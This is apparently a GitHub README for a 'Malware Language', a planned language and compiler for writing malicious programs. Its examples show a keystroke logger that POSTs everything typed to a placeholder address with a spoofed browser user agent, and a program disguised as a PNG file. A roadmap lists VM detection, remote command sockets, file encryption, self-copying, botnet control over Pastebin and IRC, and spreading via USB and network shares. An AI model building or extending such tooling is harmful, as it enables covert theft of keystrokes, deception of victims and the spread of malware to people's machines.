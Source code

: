 # Malware Language

Language is only buildable in nix enivorments. But should be able to run on multiple enviroments

### Example code
Basic example
```
use system; @ Imports exit
use keyboard; @ Imports lock, unlock
use window; @ Imports notify

main:{
 keyboard.lock(); @ Locks the keyboard 

 window.notify("Oh hi mark!"); @ Utilizes builtin function

 keyboard.unlock(); @ Unlocks the keyboard
 system.exit();
}
```

Network POST example
```
use system; @ Imports exit
use keyboard; @ Imports log
use network; @ Imports POST
use time; @ Imports until

main:{
 wait:(time.until("22:00")){ @ Waits until 22:00 today before exiting
  info := keyboard.log(); @ Logs everything the user enters
 }

 network.set_user_agent("Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36"); @ Updates the user agent for this request
 network.POST("address", "port", info); @ Will send whatever the user entered 

 system.exit(); @ Exits the program
}
```

Transform example
```
use system;
use object;
use window;

main:{
 object.set_header_target("png"); @ Will result in the end product being identified as a png
 object.set_extension(".png"); @ Sets the program extension
 
 window.notify("Hello, World!"); @ Prints "Hello, World!" to the screen

 system.exit(); @ Exits the program
}
```

## General ideas on what more the language can do
1. Includes tools to check if the malware is running in a vm, what kind of vm(?)
2.Include options to open socket to target, send commands and retrieve results, copy files, mv files etc.
3. Be able to write to specific disk blocks, write & read from the disk.
4. Encrypt files and decryptions methods. Should contain multiple different encryptions methods
5. Able to copy the executable to different locaitons
6. Metasploit compatability? Being able to run metasploit scripts?
7. Using pastebin for sending commands to zombies in a botnet.
8. IRC for sending commands to zombies in a botnet(?)
9. Copy to usb
10. Copy accross network shared folders

## The compiler should then be able to
1. List arguments for the compiler, `-h`
2. Target plattform, windows, nix

## Technical parts
1. All directories created are temporarly and should be deleted when the program is finished
2. Internal inputs/outpus are all in json format
